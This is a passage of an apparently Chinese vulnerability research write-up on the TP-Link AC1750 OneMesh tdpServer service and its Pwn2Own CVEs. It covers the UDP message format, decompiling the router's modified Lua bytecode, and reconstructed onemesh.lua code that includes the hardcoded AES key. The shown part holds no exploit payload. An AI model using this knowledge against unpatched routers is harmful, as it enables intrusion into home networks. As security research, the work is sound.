



[TOC]

涉及的路由器型号是TP-Link AC1750

# 不了解的知识点

## WiFi Extender(WiFi 拓展器)

无线扩展器就是一个中继器（Wi-Fi信号放大器），主要用于无线信号的扩展。当家庭或者办公环境面积比较大时，单台无线路由器的覆盖范围有限，部分区域信号较弱或存在信号盲点，此时如果使用无线扩展器，就可以将已有的无线路由器的较弱信号进行增强放大，使得各个角落都有信号。 



## TP-Link OneMesh

OneMesh是由TP-Link提出的一个协议，用于路由器与WiFi拓展器之间进行通信。OneMesh协议只作用于**支持OneMesh的路由器**与**支持OneMesh的WiFi拓展器**之间！

OneMesh协议可以智能地将移动设备连接到路由器或者WiFi放大器上，以提供最佳的连接。OneMesh路由器和OneMesh WiFi拓展器**共享一个Wi-Fi名称**，让使用者感觉不到WiFi拓展器的存在。

- 传统的路由器与WiFi拓展器会有多个WiFi名称。
  - 

- OneMesh Router + Range Extender
  - 

OneMesh Router只能与OneMesh range extender构建onemesh网络(即不能在两台路由器间构建onemesh网络)

从后续的逆向中发现，OneMesh网络中有主从关系，**Range Extender在代码中被称为slave，而OneMesh Router被称为master**。

## Router和AP之间的不同

https://www.ligowave.com/difference-between-access-point-and-router

https://uk.pcmag.com/networking/136277/modem-router-and-access-point-whats-the-difference

https://www.tp-link.com/us/support/faq/2420/

https://www.tp-link.com/us/support/faq/1384/

无线Router = 无线AP(Access Point) + 有线Router

- 有线Router使得所有的客户端设备共享互联网。它还支持一些额外的功能：家长控制，访问控制，QoS，带宽控制，NAT转发，IPv6，VPN等
- 而无线AP仅用于提供无线连接

TP-Link的路由器有两种模式：Router模式和AP模式。处于Router模式下就提供完整的上述功能，而AP模式就会阉割一堆的功能。

- 

可以通过TP-Link无线路由器的Web接口将其从Router模式切换到AP模式。


# Lan Exploit

pwn2own2019与TP-Link AC1750 Lan口有关的CVE有：

- CVE-2020-10882: 位于`/usr/bin/tdpServer`中的命令注入
- CVE-2020-10883: 不正确的文件系统权限。TP-Link AC1750的文件系统是以可读可写形式挂载的，导致长度受限的命令注入漏洞可以利用成功。
- CVE-2020-10884: 硬编码在`/usr/bin/tdpServer`中的AES密钥

`/usr/bin/tdpServer`是运行在支持OneMesh的路由器上的一个服务器，用于与OneMesh WiFi拓展器进行通信。

## 程序逆向分析 

### ① 程序功能概述

`tdpServer`是OneMesh Router中用于**与OneMesh网络中的Range Extender进行通信**的一个组件。

Range Extender与OneMesh Router通过**UDP 20002端口**进行通信，并定义了一套通信消息格式，其格式如下：

- ```c
  struct tdpd_msg_header {
      char version;    // 必须等于1
      char reserved; 
      uint16_t opcode; 
      uint16_t len;	 // payload的长度
      char flags;
      uint32_t sn;     // serial number
      uint32_t checksum;
  }
  // sizeof(tdpd_msg) = 0x410
  struct tdpd_msg {
  	struct tdpd_msg_header header
      char payload[1024]; // 消息真正的内容填充在payload域里
  };
  ```

  处理代码会根据`tdpd_msg->header->opcode`来选择相应的处理函数来处理payload。

  - 0x1: Probe Request
    - 设备都是广播的发送Probe Request，用于探测OneMesh网络上所有设备的信息。
    - 当设备接收到Probe Request消息后，会将自己在OneMesh网络中的状态响应给发送者，响应的信息包括：自己的MAC地址，IP地址，系统运行模式(Router还是AP)，设备类型，在OneMesh网络中的角色(slave还是master)，OneMesh协议支持的程度，支持的版本等等。
    - Slave和Master都可以发送该类型的消息包以探测OneMesh网络的状况。
  - 0x4: Attach Master Request
    - 该消息包只用于Slave向Master进行发送。如果A(Slave)向B(Master)发送该消息包，意味着A想要attach上B。当B接收到该消息包后，会获取自己的RSA公钥，然后将其发送给A。
  - 0x7: Slave Key Offer Request
    - 该消息包只用于Slave向Master进行发送。A在接收到B的Attach Master Reply消息包后，会对消息包进行解包，拿到B的RSA公钥，并用B的公钥来加密自己的RSA私钥，然后将其发送给B，发送的消息包就是Slave Key Offer Request。

根据我的理解`/usr/bin/tdpServer`可能只存在于OneMesh Router上，因为通过逆向发现tdpServer与OpenWrt的组件深度结合，而Ranger Extender使用的操作系统是VxWorks(通过从官网下载固件解包可以知道)，所以在Range Extender上应该有另外一套代码，与tdpServer所定义的消息格式是兼容的。但是`tdpServer`中的代码会根据当前设备在OneMesh网络中的角色(master or salve)来执行不同的函数，既然OneMesh Router在OneMesh网络中一定(见注释)就是master设备，又为什么写与slave相关的代码呢？我猜测是开发人员有意要加入两个Router构建OneMesh网络的功能，也有可能是高端的Range Extender使用的也是OpenWrt，上面也运行了tdpServer。既然这样可以从tdpServer上与slave相关的代码来揣测Range Extender的行为。

- > 在OneMesh网络中有两种设备：master设备和slave设备。在TP-Link官方文档里写明OneMesh网络只能由一个OneMesh Router和多个Range Extender构成，不能由两个OneMesh Router构成，**那么路由器必然就是master设备，Range Extender就是slave设备**

下面就从tdpServer的main函数来开始分析程序。`/usr/bin/tdpServer`的main函数会根据路由器所处的模式选择不同的指令路径。路由器有两种模式：Router模式和AP模式。两种模式所支持的特性个数不同，这从下面的代码中也可以看到，AP模式就是Router模式的阉割版。

```c
int main()
{
    char system_mode[0x10] = {0};
    get_system_mode(system_mode); // system_mode = "AP" or "Router"
    if (!strcmp(system_mode, "AP")) {
        system_mode_is_router = 0;
        start_tdpd_server();
        return 0;
    }
    int pid = fork();
    if (pid)
        start_tdpd_server(); // 主进程开启tdpd_server
    else {
        int pid = fork();
        if (pid)
            start_tdp_onemesh();
        else
            start_tdp_ubus();
    }
    return 0;
}
```

- 如果路由器所处的模式是"AP"，则调用`start_tdpd_server`函数后就结束工作了，不会fork子进程开启其他的服务。
- 如果路由器所处的模式是"Router"，则会创建两个新进程(加上主进程一共三个进程)，三个进程分别执行`start_tdpd_server`，`start_tdpd_server`, `start_tdp_ubus`函数。

这三个函数的大致功能如下：

- `start_tdpd_server`: 监听**UDP 20002**端口，用于解析onemesh client发送过来的`tdpd_msg`消息，并根据`tdpd_msg->header->opcode`来选择相应的处理函数。
- `start_tdpd_onemesh`: onemesh client。
  - 如果运行tdpServer的设备是master，则**定期**向UDP 20002端口广播`Probe Request`消息，以获取OneMesh网络上的所有设备状态信息，并将这些信息保存到共享内存上(前面说过，如果路由器处于Router模式，则存在三个进程。这三个进程通过共享内存进行通信)。
  - 如果运行tdpServer的设备是slave，则首先向UDP 20002端口广播`Probe Request`消息，以获取OneMesh网络上的所有设备状态信息，并将这些信息保存到共享内存上，之后遍历这些设备信息，找到一个master设备，然后向该设备发送`Attach Master Request`消息。

逆向分析发现`/usr/bin/tdpServer`中大量的代码会与位于`/usr/lib/lua/luci/controller/admin/`目录下的`onemesh.lua`脚本进行通信。所以在分析tdpServer之前，先对onemesh.lua提供的功能进行逆向分析。

### ② onemesh.lua

#### lua binary chunk解密

经过分析，发现文件系统上的lua脚本都不是以源码的形式存在，是以lua binary chunk的形式存在。并且binary chunk不是标准形式，而是经过修改的。通过[这篇文章](https://blog.ihipop.com/2018/05/5110.html)了解到OpenWrt上的lua是经过patch过的，binary chunk的header部分与标准形式不一样。

除此之外，逆向分析文件系统上的liblua5.1.4.so发现字节码的顺序也被修改过了，通过与原版lua进行比对，还原出tp-link的字节码顺序：

- ```c
  typedef enum {
      OP_GETTABLE = 0x0, // 对应原版的0x6
      OP_GETGLOBAL = 0x1, // 对应原版的0x5
      OP_SETGLOBAL = 0x2, // 对应原版的0x7
      OP_SETUPVAL = 0x3, // 对应原版的0x8
      OP_SETTABLE = 0x4, // 对应原版的0x9
      OP_NEWTABLE = 0x5, // 对应原版的0xA
      OP_SELF = 0x6, // 对应原版的0xB
      OP_LOADNIL = 0x7, // 对应原版的0x3
      OP_LOADK = 0x8, // 对应原版的0x1
      OP_LOADBOOL = 0x9, // 对应原版的0x2
      OP_GETUPVAL = 0xA, // 对应原版的0x4
      OP_LT = 0xB, // 0x18
      OP_LE = 0xC, // 0x19
      OP_EQ = 0xD, // 0x17
      OP_DIV = 0xE,
      OP_MUL = 0xF,
      OP_SUB = 0x10,   // 0xD
      OP_ADD = 0x11,   // 0xC
      OP_MOD = 0x12,   // 0x10
      OP_POW = 0x13,   // 0x11
      OP_UNM = 0x14,   // 0x12
      OP_NOT = 0x15,   // 0x13
      OP_LEN = 0x16,   // 0x14
      OP_CONCAT = 0x17, // 0x15
      OP_JMP = 0x18,  // 0x16
      OP_TEST = 0x19, // 0x1A
      OP_TESTSET = 0x1A, // 0x1B
      OP_MOVE = 0x1B, // 0x0
      OP_FORLOOP = 0x1C,   // 0x1F
      OP_FORPREP = 0x1D,   // 0x20
      OP_TFORLOOP = 0x1E,  // 0x21
      OP_SETLIST = 0x1F,  // 0x22
      OP_CLOSE = 0x20,    // 0x23
      OP_CLOSURE = 0x21, // 0x24
      OP_CALL = 0x22, // 0x1C
      OP_RETURN = 0x23, // 0x1E
      OP_TAILCALL = 0x24, // 0x1D
      OP_VARARG = 0x25, // 0x25
  } OpCode;
  ```

关于lua字节码的反编译参考了这几篇文章

- https://blog.ihipop.com/2018/05/5110.html
- https://vovohelo.medium.com/unscrambling-lua-7bccb3d5660
- https://xdeksec.com/post/rwctf_3rd_router3_writeup_1/

大家的做法一致是使用[luadec](https://github.com/viruscamp/luadec)这个项目，并对项目中lua5.1的源码进行修改，修改的原则就是与目标所使用的lua一致就OK了。以tp-link为例，我们只需要将OpenWrt的lua patch打上之后，将字节码替换成上面的就好了。

- 打OpenWrt lua patch的脚本

  ```shell
  sudo apt install libncurses-dev libreadline-dev
  git clone https://github.com/viruscamp/luadec
  cd luadec
  git submodule update --init lua-5.1
  #下面开始不同
  ref=master
  patch_dir=patches.$ref
  mkdir $patch_dir && cd $patch_dir
  patchs=$(curl -sSL -H 'Accept: application/vnd.github.v3+json' 'https://api.github.com/repos/openwrt/openwrt/contents/package/utils/lua/patches?ref='"$ref" |grep -oP 'name\"\s*:\s*\".*\.patch' |grep -oP '\d+.*\.patch')
  #下载补丁文件
  for p in $patchs;do  
  wget 'https://github.com/openwrt-mirror/openwrt/raw/'"$ref"'/package/utils/lua/patches/'${p}  -O $p; 
  done
  cd ../lua-5.1
  #打上补丁
  for i in ../${patch_dir}/*.patch; do patch -p1 <$i ; done
  ```

之后还需要修改Makefile，因为我使用的Linux系统是64位，编译的话默认是编译64位的，而目标lua字节码是32位的，所以需要编译32位的lua和luadec

- lua-5.1/src/Makefile

  - ```makefile
    CC= gcc
    CFLAGS= -m32 -fPIC -O2 -Wall $(MYCFLAGS) # 增加了-m32 -fPIC
    AR= ar rcu
    RANLIB= ranlib
    RM= rm -f
    LIBS= -lm $(MYLIBS)
    
    MYCFLAGS=
    MYLDFLAGS= -m32 # 增加了-m32
    MYLIBS=
    ```

    之后在lua-5.1目录下执行`make linux`就OK了。可能还会遇见无法链接符号的问题，调整下Makefile里链接时`-llua`的位置就OK了

    ```makefile
    $(LUA_T): $(LUA_O) $(LUA_SO)
            $(CC) -o $@ -L. $(MYLDFLAGS) $(LUA_O) -llua $(LIBS)
    
    $(LUAC_T): $(LUAC_O) $(LUA_SO)
            $(CC) -o $@ -L.  $(MYLDFLAGS) $(LUAC_O) -llua $(LIBS)
    ```

    编译完后，还需要使用`patchelf`修正一下liblua.so动态库的路径，使得liblua.so指向当前目录。

- luadec/luadec/Makefile

  - ```makefile
    CC= gcc
    CFLAGS= -m32 -O2 -Wall -DSRCVERSION=\"$(SRCVERSION)\" $(INCS) $(MYCFLAGS) # 增加-m32
    LDFLAGS= -m32 $(MYLDFLAGS) # 增加-m32
    AR= ar rcu
    ```

    之后执行`make LUAVER=5.1`

这里还有一个坑需要注意，仅仅只替换了lua源码中`enum Opcode`还不够，如果此时用luadec进行反编译就会报"bad code in precompiled chunk"的错误，这是因为lua源码中还有一个数组`luaP_opmodes`，用来检查每个字节码的操作数是否符合既定的规则，而这个数组元素的顺序与字节码是一一对应的关系：

- ```c
  const lu_byte luaP_opmodes[NUM_OPCODES] = {
      /*       T  A    B       C     mode		   opcode	*/
      opmode(0, 1, OpArgR, OpArgN, iABC) 		/* OP_MOVE */
     ,opmode(0, 1, OpArgK, OpArgN, iABx)		/* OP_LOADK */
     ,opmode(0, 1, OpArgU, OpArgU, iABC)		/* OP_LOADBOOL */
     ,opmode(0, 1, OpArgR, OpArgN, iABC)		/* OP_LOADNIL */
     // ...
  }
  ```

  `luaP_opmodes[OP_MOVE]`对应的就是MOVE字节码操作数的规则...所以我们还需要调换`luaP_opmodes`数组中元素的顺序，以绕过后续的检查操作。

- 这里我们可以取巧，将字节码检查相关的代码直接给删除掉。在`LoadFunction`函数中，加载完代码后，会调用`luaG_checkcode`对刚加载的字节码进行检查，该函数就会使用到`luaP_opmodes`数组，以检查每条指令的操作数是否符合规则，我们可以直接将其注释掉。

  ```c
  static Proto* LoadFunction(LoadState* S, TString* p)
  {
      Proto* f;
      if (++S->L->nCcalls > LUAI_MAXCCALLS) error(S,"code too deep");
      f=luaF_newproto(S->L);
      setptvalue2s(S->L,S->L->top,f); incr_top(S->L);
      f->source=LoadString(S); if (f->source==NULL) f->source=p;
      f->linedefined=LoadInt(S);
      f->lastlinedefined=LoadInt(S);
      f->nups=LoadByte(S);
      f->numparams=LoadByte(S);
      f->is_vararg=LoadByte(S);
      f->maxstacksize=LoadByte(S);
      LoadCode(S,f);
      LoadConstants(S,f);
      LoadDebug(S,f);
      // IF (!luaG_checkcode(f), "bad code");
      S->L->top--;
      S->L->nCcalls--;
      return f;
  }
  ```

  之后重新编译lua-5.1和luadec就OK了。

让我们用luadec进行反编译：

- ```shell
  $ ./luadec squashfs-root/usr/lib/lua/luci/controller/admin/onemesh.lua > decompiled_onemesh.lua
  ```

  此时生成的代码并不完全(少了非常多)，而且可读性非常低，这是因为该binary chunk是strip过的，没有任何调试信息，局部变量的名称是完全不知道的，所以luadec定义的局部变量名称与IDA生成的类似。

- 为了生成完整的代码，我们使用`-a`选项和`-dg`选项来重新反编译

  ```
  usage: ./luadec [options] [filename].  Available options are:
    -        process stdin
    -d       output information for debugging the decompiler
    -dis     don't decompile, just disassemble
    -f num   decompile only specific function, use -pn option to get available num
    -ns      donot process sub functions
    -pn      print all sub function numbers and exit
    -l LDS   declare locals as defined by LDS
    -l2 LDS2 declare locals as defined by LDS2
    -dg      disable built-in local guessing
    -pg      don't run just print out the LDS2 string used
    -s       strip compiled code before decompiling
    -a       always declare all register as locals
    -fc      compile decompiled function and compare
    -se      output strings using selected encoding, available encodings are ASCII GB2312 GBK BIG5 UTF8
    --       stop handling options
  ```

  ```
  $ ./luadec -a -dg squashfs-root/usr/lib/lua/luci/controller/admin/onemesh.lua > decompiled_onemesh.lua
  ```

  此时生成的代码如下：

  ```lua
  generate_random_string = l_0_27                                                                            
  l_0_27 = function()
      -- function num : 0_18 , upvalues : l_0_r4, l_0_r13, l_0_r16, l_0_r17, l_0_r18
      local l_18_0 = nil
      local l_18_1 = nil                                             
      local l_18_2 = nil
      local l_18_3 = nil
      local l_18_4 = nil
      local l_18_5 = nil                                             
      local l_18_6 = nil
      local l_18_7 = nil
      l_18_2 = generate_random_string                                
      l_18_3 = Unknown_Type_Error
      l_18_2 = l_18_2(l_18_3)
      l_18_0 = l_18_2
      l_18_2 = generate_random_string
      l_18_3 = Unknown_Type_Error
      l_18_2 = l_18_2(l_18_3)
      l_18_1 = l_18_2
      -- ...
  ```

  虽然可读性非常低，但是起码代码是完整的。

#### 修正后的lua伪代码

下面是我手动修正过的onemesh.lua代码

```lua
cursor = luci.model.uci.cursor()
rsa = luci.model.asycrypto.Crypto("rsa")

function aes_encrypt(data)
    local data = luci.model.crypto.enc(data, "1234567890abcdefonemesh", true)
    local res = luci.nixio.bin.b64encode(data)
    return res
end

function aes_decrypt(data)
    local data = luci.nixio.bin.b64decode(data)
    local res = luci.model.crypto.dec(data, "1234567890abcdefonemesh", true)
    return res
end

-- slave_generate_slave_key: 生成两个rsa private，分别用于username和passwd加密
function slave_generate_slave_key()
    luci.sys.exec("openssl genrsa -out /tmp/onemesh_rsa_private_key.pem 64")
    local account_key_fp = io.open("/tmp/onemesh_rsa_private_key.pem", "r")
    local account_key_file_content = private_key_fp:read("*a")
    account_key_fp:close()
    local account_key = string.match(
        account_key_file_content, 
        "%-+BEGIN RSA PRIVATE KEY%-+%s+([%w%p]+)%s+"
    ).sub(...)
    luci.tools.debug.print("buf is " ... account_key_file_content)
    luci.tools.debug.print("account is  " ... account_key)
    local encrypted_account_key = aes_encrypt(account_key)

    luci.sys.exec("openssl genrsa -out /tmp/onemesh_rsa_private_key.pem 64")
    local passwd_key_fp = io.open("/tmp/onemesh_rsa_private_key.pem", "r")
    local passwd_key_file_content = private_key_fp:read("*a")
    passwd_key_fp:close()
    local passwd_key = string.match(
        account_key_file_content, 
        "%-+BEGIN RSA PRIVATE KEY%-+%s+([%w%p]+)%s+"
    ).sub(...)
    luci.tools.debug.print("buf is " ... passwd_key_file_content)
    luci.tools.debug.print("account is  " ... passwd_key)
    local encrypted_passwd_key = aes_encrypt(passwd_key)
    local val = {
        username = account_key,
        password = passwd_key
    }
    cursor:section("onemesh", "tmp_account", "onemesh_pri_sync", val)
    cursor:commit()
    return true
end

function slave_get_slave_key()
    local account_key = cursor:get("onemesh", "onemesh_pri_sync", "username")
    local passwd_key = cursor:get("onemesh", "onemesh_pri_sync", "password")
    if account_key == nil or passwd_key == nil then
        slave_generate_slave_key()
        account_key = cursor:get("onemesh", "onemesh_pri_sync", "username")
        passwd_key = cursor:get("onemesh", "onemesh_pri_sync", "password")
    end
    local encrypted_account_key = aes_encrypt(account_key)
    local encrypted_passwd_key = aes_encrypt(passwd_key)
    local val = {
        username = encrypted_account_key,
        password = encrypted_passwd_key
    }
    luci.tools.debug.dumptable(val)
    return val
end

function master_get_slave_key(target_device_mac)
    local account_key, passwd_key
    local find_handler = function (device)
        if device.mac == target_device_mac then
            account_key = aes_encrypt(device.tmp_username)
            passwd_key = aes_encrypt(device.tmp_password)
        end
    end
    cursor:foreach("onemesh_client", "device", handler)
    local res = {
        tmp_username = account_key, 
        tmp_password = passwd_key
    }
    return res
end

function master_set_slave_key(target_device_mac, account_key, passwd_key, want_join)
    -- ...
end

function master_get_rsa_pub_key()
    local res = rsa:read_pubkey()
    luci.tools.debug.dumptable(res)
    return res
end

function slave_store_rsa_pub_key(pub_key)
    if pub_key.n == nil or pub_key.e == nil then
        return false    
    end
    master_rsa_pub_file_Lock()
    local master_rsa_pub_fp = io.open("/tmp/onemesh_master_rsa_pub", "w")
    master_rsa_pub_fp:write("n=", pub_key.n, "\n", "e=", pub_key.e, "\n")
    master_rsa_pub_fp:close()
    master_rsa_pub_file_UnLock()
    return true
end

function slave_fetch_rsa_pub_key()
    master_rsa_pub_file_Lock()
    local master_rsa_pub_fp = io.open("/tmp/onemesh_master_rsa_pub", "r")
    local content = master_rsa_pub_fp:read(*a)
    master_rsa_pub_fp:close()
    master_rsa_pub_file_UnLock()
    local n, e = string.match(content, "n=([%w%p]+)%s+e=([%w%p]+)%s*")
    local res = {
        n = n,
        e = e
    }
    luci.tools.debug.dumptable(res)
    return res
end

function rsa_enc_slave_key(username_key, passwd_key, n, e)
    local pub_key = {
        n = n,
        e = e
    }
    local encrypted_username_key = rsa.encrypt(username_key, pub_key)
    local encrypted_passwd_key = rsa.encrypt(passwd_key, pub_key)
    res = {
        enc_tmp_username = encrypted_username_key,
        enc_tmp_passwd = encrypted_passwd_key
    }
    luci.tools.debug.dumptable(res)
    return res
end

function slave_offer_enc_slave_key() 
    local pub_key = slave_fetch_rsa_pub_key()
    local private_key = slave_get_slave_key()
    local res = rsa_enc_slave_key(private_key.username, private_key.password, pub_key.n, pub_key.e)
    luci.tools.debug.dumptable(res)
    return res
end

function rsa_dec_slave_key(encrypted_username_key, encrypted_passwd_key)
    local username_key = rsa.decrypt(encrypted_username_key)
    local passwd_key = res.decrypt(encrypted_passwd_key)
    local res = {
        tmp_username = username_key,
        tmp_password = passwd_key
    }
    luci.tools.debug.dumptable(res)
    return res
end

function master_accept_enc_slave_key(device)
    if device.mac == nil or device.enc_usr == nil or device.enc_pwd == nil or device.want_to_join == nil then
        return false
    end
    local res = rsa_dec_slave_key(device.enc_usr, device.enc_pwd)
    return master_set_slave_key(device.mac, res.tmp_username, res.tmp_password)
end

function master_decrypt_enc_slave_key(device)
    if device.enc_usr == nil or device.enc_pwd == nil then
        return false    
    end
    local res = rsa_dec_slave_key(device.enc_usr, device.enc_pwd)
    return res
end

function master_generate_group_id() 
    local random_val = luci.model.uuid.generate_random()
    cursor:section("onemesh", "onemesh", "onemesh", {group_id = random_val})
    cursor:commit("onemesh")
end

function generate_random_string() 
end

function master_generate_backhaul_wcfg() 
    local ssid = generate_random_string()
    local psk_key = generate_random_string()
    cursor:section("onemesh", "wifi-iface", "ath03", {ssid = ssid, psk_key = psk_key})
    ssid = generate_random_string()
    psk_key = generate_random_string()
    cursor:section("onemesh", "wifi-iface", "ath13", {ssid = ssid, psk_key = psk_key})
    cursor:commit()
end

function master_get_onemesh_info()
    local group_id = cursor:get("onemesh", "onemesh", "group_id")
    local role = cursor:get("onemesh", "onemesh", "role")
    local res = {
        group_id = group_id,
        role = role
    }
    return res
end

function get_onemesh_info()
    local group_id = cursor:get("onemesh", "onemesh", "group_id")
    local role = cursor:get("onemesh", "onemesh", "role")
    local slave_auto_attach_needed = cursor:get("onemesh", "onemesh", "slave_auto_attach_needed")
    local slave_auto_join_needed = cursor:get("onemesh", "onemesh", "slave_auto_join_needed")
    local master_auto_probe_needed = cursor:get("onemesh", "onemesh", "master_auto_probe_needed")
    local res = {
        group_id = group_id,
        role = role,
        slave_auto_attach_needed = slave_auto_attach_needed,
        slave_auto_join_needed = slave_auto_join_needed,
        master_auto_probe_needed = master_auto_probe_needed
    }
    return res
end

function onemesh_set_role(role) 
    if role ~= "master" and role ~= "slave" then
        return false    
    end
    cursor:section("onemesh", "onemesh", "onemesh", {role = role})
    cursor:commit("onemesh")
end

function onemesh_set_group_id(group_id) 
    if group_id == nil then
        return false 
    end
    cursor:section("onemesh", "onemesh", "onemesh", {group_id = group_id})
    cursor:commit("onemesh")
end

function onemesh_set_slave_attach(info)
    luci.tools.debug.print("onemesh_set_slave_attach")
    luci.tools.debug.print(info)
    if info.setJoin == "1" then
        val = {
            slave_auto_attach_needed = slave_auto_attach_needed,
            slave_auto_join_needed = slave_auto_join_needed
        }
        cursor:section("onemesh", "onemesh", "onemesh", val)
    else
        val = {
            slave_auto_attach_needed = slave_auto_attach_needed,
        }
        cursor:section("onemesh", "onemesh", "onemesh", val)
    end
    cursor:commit("onemesh")
end

function slave_mac_info_func(info)
    local joined, username_key, passwd_key, is_found, err
    is_found = false
    err = false
    local find_handler = function (device) 
        if info.slaveMac == device.mac then
            is_found = true
            if device.joined == "1" then 
                joined = device.joined
            end
            username_key = aes_decrypt(device.tmp_username)
            passwd_key = aes_decrypt(device.tmp_password)
        end
    end
    cursor:foreach("onemesh_client", "device", find_handler)
    if (username_key == nil or passwd_key == nil) then 
        luci.tools.debug.print("username or password is nil")
        err = true
    end
    local res
    if is_found then 
        if err == false then
            res = {exist = "1", joined = joined, tmp_username = username_key, tmp_password = passwd_key}
        else
            res =  {exist = "1", joined = joined}
        end
    else
        res =  {exist = "0", joined = joined}
    end
    return res
end

function set_mainTrans_wcfg_flag_func() 

end

function get_password_strictly_with_name(username) 
    luci.tools.debug.print("get_password_strictly username " ... username)
    local encrypt_username_key = cursor:get("onemesh", "onemesh_pri_sync", "username")
    local encrypt_passwd_key = cursor:get("onemesh", "onemesh_pri_sync", "password")
    if encrypt_username_key == nil or encrypt_passwd_key == nil then 
    	return false
    end
    local username_key = aes_decrypt(encrypt_username_key)
    local passwd_key = aes_decrypt(encrypt_passwd_key)
    if username_key == username then 
    	return passwd_key
    end
    return false
end

-- getfirm是一个shell脚本，用于获得设备本身的一些信息
function get_dev_info()
    local model = luci.sys.exec("getfirm MODEL") or ""
    local mac = luci.sys.exec("getfirm MAC") or ""
    local device_type = cursor:get_profile("global", "device_type") or "WirelessRouter"
	return {deviceModel = model, deviceMac = mac, deviceType = device_type}
end

function wireless_status_all() 
	return luci.model.wireless.Apcfg({"wireless_2g", "wireless_5g"}):read()
end

function sync_wifi_specified(device_info)
    local device_mac = device_info.mac
    local wl_status = wireless_status_all()
    if type(wl_status) ~= "table" then 
    	luci.tools.debug.print("cannot get the wireless status")
        wl_status = {wireless_2g_current_channel = "", wireless_5g_current_channel = ""}
    end
    local wl_ath0 = cursor:get_all("wireless", "ath0")
    local wl_ath1 = cursor:get_all("wireless", "ath1")
    
    local ath0_ssid = wl_ath0.ssid
    local ath0_encryption = wl_ath0.encryption
    local ath0_psk_key = wl_ath0.psk_key or "12345678"
    local ath0_psk_version = wl_ath0.psk_version
    local ath0_psk_cipher = wl_ath0.psk_cipher
    local ath0_wep_mode = wl_ath0.wep_mode
    local ath0_wep_format1 = wl_ath0.wep_format1
    local ath0_wep_type1 = wl_ath0.wep_type1
    local ath0_wep_key1 = wl_ath0.wep_key1 or "1234567890"
    -- ...
end

local form_table = {
    rsa_public = {
        master_get = {cb = master_get_rsa_pub_key} , 
        slave_store = {cb = slave_store_rsa_pub_key}
    }
    slave_key = {
        slave_offer = {cb = slave_offer_enc_slave_key}, 
        master_accept = {cb = master_accept_enc_slave_key}, 
        master_decrypt = {cb = master_decrypt_enc_slave_key}
    }
    slave_info = {
        slave_mac_info = {cb = slave_mac_info_func}, 
        set_mainTrans_wcfg_flag = {cb = set_mainTrans_wcfg_flag_func}
    }
    onemesh_info = {
        get_info = {cb = get_onemesh_info}, 
        set_role = {cb = onemesh_set_role}, 
        set_group_id = {cb = onemesh_set_group_id}, 
        set_slave_attach = {cb = onemesh_set_slave_attach}
    }
    device_info = {
        get_dev_info = {cb = get_dev_info}
    }
    sync_server_cmd = {
        sync_wifi_specified = {cb = sync_wifi_specified}
    }
}
-- data就是C程序传递的table, table的形式是这样的：tb = {form = "", operation = ""}
-- 该函数的返回值形式：{success = "", data = "", others = "", errorcode = ""}
function dispatch(data)
    local post_hook_fun = function (is_ok, cmd_info) 
        if is_ok and type(cmd_info) == "table" then 
            for index = 1, #cmd_info do 
                luci.sys.fork_call(cmd_info[index].cmd)
            end
        else
            luci.sys.fork_exec(cmd_info.cmd)
        end
        return true
    end
    return luci.model.controller.dispatch(form_table, data, {post_hook = post_hook_fun})
end

function _index() 
	return luci.model.controller._index(dispatch)
end

function index()
	entry({"admin", "onemesh"}, call(_index)).leaf = true
end

-- =================== luci.model.controller ===================

function dispatch(form_table, data, hook)
    local form_name = data.form
    local operation = data.operation
	-- 以下内容为猜测
    local fun = form_table[form_name][operation].cb
    local data = fun()
    return {success = ?, data = data, ...}
end
```

### ③ /usr/bin/tdpServer

#### 与lua脚本进行通信的方式

从上面的onemesh.lua的末尾可以看到有一个叫做`form_table`的表，用户就是通过该表来选择调用的函数的。

以`call_lua_get_onemesh_info(@0x0416468)`函数为例：

- 它首先将`require`模块`luci.controller.admin.onemesh`，此时栈顶就是onemesh module这个table

- 从onemesh中获取到dispatch函数，并将其压入栈顶，之后传入如下的table给它

  - ```lua
    tb = {
    	form = "onemesh_info",
        operation = "get_info"
    }
    ```

- 紧接着就会调用dispatch函数，上面的table就是它参数，dispatch函数就会根据这个table来调用响应的函数

  - ```lua
    -- data就是上面的tb
    form_table[data.form][data.operation].cb()
    ```

#### start_tdpd_server(@0x040D164)

该server监听**UDP 20002**端口，用处就是接收`tdpd_msg`消息包，对消息包进行处理，并发送响应包。消息格式如下

- ```c
  struct tdpd_msg_header {
      char version;    // 必须等于1
      char reserved; 
      uint16_t opcode; 
      uint16_t len;	 // payload的长度
      char flags;
      uint32_t sn;     // serial number
      uint32_t checksum;
  }
